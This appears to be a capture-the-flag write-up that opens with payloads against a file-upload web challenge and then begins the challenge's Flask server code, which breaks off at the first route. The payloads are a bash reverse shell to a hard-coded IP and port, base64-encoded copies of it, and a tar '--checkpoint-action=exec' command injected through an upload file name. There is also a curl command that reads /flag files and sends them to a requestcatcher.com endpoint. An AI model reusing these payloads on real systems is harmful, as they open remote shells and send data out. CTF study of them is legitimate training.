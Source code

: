 ```
bash -c 'bash -i >& /dev/tcp/211.250.216.249/7000 0>&1'

echo "IyEgL2Jpbi9iYXNoCmJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMjExLjI1MC4yMTYuMjQ5LzcwMDAgMD4mMSc=" | base64 --decode > shell.sh;sh shell.sh
Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=echo \"IyEgL2Jpbi9iYXNoCmJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMjExLjI1MC4yMTYuMjQ5LzcwMDAgMD4mMSc=\" | base64 --decode > shell.sh;sh shell.sh"

Note: For all web challenges, for reasons unknown to mankind, calls back to webhook.site (and perhaps others) are not working so try to use something like https://requestcatcher.com/ (which is confirmed to work)

---
curl -X POST --data-urlencode "data=$(cat /flag*)" https://asdf.requestcatcher.com/test
echo "Y3VybCAtWCBQT1NUIC0tZGF0YS11cmxlbmNvZGUgImRhdGE9JChjYXQgL2ZsYWcqKSIgaHR0cHM6Ly9hc2RmLnJlcXVlc3RjYXRjaGVyLmNvbS90ZXN0" | base64 --decode > shell.sh;sh shell.sh
Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=echo \"Y3VybCAtWCBQT1NUIC0tZGF0YS11cmxlbmNvZGUgImRhdGE9JChjYXQgL2ZsYWcqKSIgaHR0cHM6Ly9hc2RmLnJlcXVlc3RjYXRjaGVyLmNvbS90ZXN0\" | base64 --decode > shell.sh;sh shell.sh"
```


---
### Code
- `server.py`
``` python
# imports
from flask import Flask, g, render_template, request, redirect, make_response, send_file, after_this_request
import uuid, os


# initialize flask
app = Flask(__name__)


# ensure each user has a uuid session
@app.before_request
def check_uuid():
    uuid_cookie = request.cookies.get('uuid', None)

    # ensure user has uuid_cookie
    if uuid_cookie is None:
        response = make_response(redirect('/'))
        response.set_cookie('uuid', str(uuid.uuid4()))
        return response
    
    # ensure uuid_cookie is valid UUID
    try:
        uuid.UUID(uuid_cookie)
    except ValueError:
        response = make_response(redirect('/'))
        response.set_cookie('uuid', str(uuid.uuid4()))
        return response
    
    g.uuid = uuid_cookie

    if not os.path.exists(f'uploads/{g.uuid}'):
        os.mkdir(f'uploads/{g.uuid}')


# main dashboard
@app.route('/', methods=['GET'])
```